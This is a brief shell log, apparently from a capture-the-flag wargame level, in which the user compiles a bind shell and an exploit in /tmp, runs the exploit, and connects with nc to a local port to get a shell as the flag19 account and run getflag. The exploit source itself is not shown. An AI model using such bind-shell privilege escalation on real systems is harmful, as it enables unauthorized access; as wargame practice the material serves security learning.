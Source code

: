 ```
sh-4.2$ cd /tmp

sh-4.2$ gcc bindshell.c -o bindshell

sh-4.2$ gcc exploit19.c -o exploit19

sh-4.2$ ./exploit19 

sh-4.2$ nc 0 2448
id
uid=980(flag19) gid=1020(level19) groups=980(flag19),1020(level19)
getflag
You have successfully executed getflag on a target account
```